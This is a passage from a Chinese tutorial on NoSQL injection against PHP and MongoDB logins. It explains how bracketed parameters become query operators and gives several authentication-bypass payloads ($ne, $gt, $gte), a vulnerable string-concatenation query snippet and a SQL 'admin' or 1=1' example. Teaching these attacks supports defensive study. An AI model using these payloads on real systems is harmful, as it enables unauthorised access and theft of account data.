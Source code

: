 进入 MongoDB 后执行的查询命令为

```sql
db.users.find({'username':'admin', 'password':'123456'})
```

![image-20230223213130876](https://image.3001.net/images/20230224/1677242568_63f8b0c8a93e6356f7d4b.png!small)

这时因为没有任何过滤，所以如果我们构造POC为,就能将数据库中所有的账户密码都查询出来

```
username[$ne]=1&password[$ne]=1
```

![image-20230223213434603](https://image.3001.net/images/20230224/1677242569_63f8b0c96c8ecd72e8ed0.png!small)

同样，进入后端的参数会变成

```json
array(
'username' => array('$ne' => 1),
'password' => array('$ne' => 1)
)
```

查询命令也会变成

```sql
db.users.find({'username':{$ne:1}, 'password':{$ne:1}})
```

![image-20230224091826979](https://image.3001.net/images/20230224/1677242570_63f8b0ca527abb229996f.png!small)

对于 PHP 本身的特性而言，由于其松散的数组特性，导致如果我们发送 value=1 那么，也就是发送了一个 value 的值为 1 的数据。如果发送 value[$ne]=1 则 PHP 会将其转换为数组 value=array($ne=>1)，当数据到了进入 MongoDB 后，原来一个单一的 {"value":1} 查询就变成了一个 {"value":{$ne:1} 条件查询。同样的，我们也可以使用下面这些作为 payload 进行攻击：

```
username[$ne]=&password[$ne]=
username[$gt]=&password[$gt]=
username[$gte]=&password[$gte]=
```

#### 2.联合查询注入

我们知道，在SQL注入中，有时候我们可以通过拼接字符串的方式绕过一些过滤，比如select+name,password+from+user。或者是常见的万能密码利用方法，比如 admin' or 1=1#这样闭合前面的引号利用or使逻辑判断永远为真，从而达到绕过登录验证的目的进入后台等。虽然mongodb的查询语句是json格式的，但我们同样可以使用字符串拼接的方式来使它逻辑判断永远为真。

我们假如后端某处的登录代码是这样的

```php
string query ="{ username: '" + $username + "', password: '" + $password + "' }"
```

当输入账号密码后，正常的查询语句是这样的

```
{'username':'admin', 'password':'123456'}
```
